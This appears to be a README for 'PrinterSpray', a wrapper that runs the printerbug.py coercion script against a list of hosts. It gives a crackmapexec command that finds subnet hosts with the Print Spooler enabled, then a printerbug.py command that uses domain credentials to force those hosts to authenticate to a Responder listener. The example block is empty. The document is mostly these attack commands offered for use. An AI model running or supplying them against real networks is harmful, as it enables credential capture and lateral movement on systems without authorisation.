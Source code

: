 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -M spooler | grep "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Run against hosts that have the spooler service enabled

```
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

Example:

```
```
